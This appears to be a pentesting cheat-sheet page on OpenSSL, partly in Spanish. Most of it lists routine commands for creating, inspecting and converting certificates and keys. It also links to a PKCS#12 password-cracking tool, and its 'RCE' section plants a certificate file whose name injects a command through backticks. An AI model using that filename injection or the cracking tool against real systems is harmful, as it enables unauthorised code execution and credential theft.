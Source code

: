 ```yaml
---
layout: app
title: "OpenSSL"
tags: ["openssl"]
---
```


[GitHub - crackpkcs12/crackpkcs12: A multithreaded program to crack PKCS#12 files (p12 and pfx extensions)](https://github.com/crackpkcs12/crackpkcs12)

## RCE

```bash
cd /etc/ssl/certs
sudo ```echo "------BEGIN CERTIFICATE------" > "hey.crt\` ifconfig\`"```
```

## Create a new Certificate

```bash
openssl req -newkey rsa:2048 -nodes -keyout <nombre>.key -x509 -days <dias> -out <certificado>.crt
```

- **-req**: Firma de un nuevo certificado
- **-newkey**: Generar llave privada
- **-rsa:2048**: Usar RSA de 2048 bits como tamaño de la llave
- **-nodes**: Almacena la llave privada sin protección de contraseña
- **-keyout**: Guarda la llave como un archivo
- **-x509**: Genera un certificado autofirmado
- **-days**: Días de validación del certificado
- **-out**: Almacena el certificado


### Genera un llave con el par de llaves publica y privada.
```bash
cat <llave>.key <certificado>.crt > <llave>.pem
```

# Get Information

```bash
openssl pkcs12 -info -in <file>.pfx -noout # PFX
openssl x509 -in <file>.pem -noout -text
openssl pkcs12 -in <archivo>.pfx -clcerts -nokeys
```

### From Public Key

```bash
openssl pkey -pubin -in pub_id.pem -text -noout
openssl rsa -pubin -in pub_id.pem -text -noout
openssl ec -pubin -in pub_id.pem -text -noout 
```

- **-pubin**: Set the input file type is a public key
- **-text**: Display the key in text format
- **-noout**: Don't display PEM information, just display details

# Site Information

```bash
openssl s_client -showcerts -servername www.example.com -connect www.example.com:443 </dev/null
```

# Convert DER to PEM

```bash
openssl pkcs7 -inform DER -print_certs -out <file>.pem -in <CERT>.RSA
```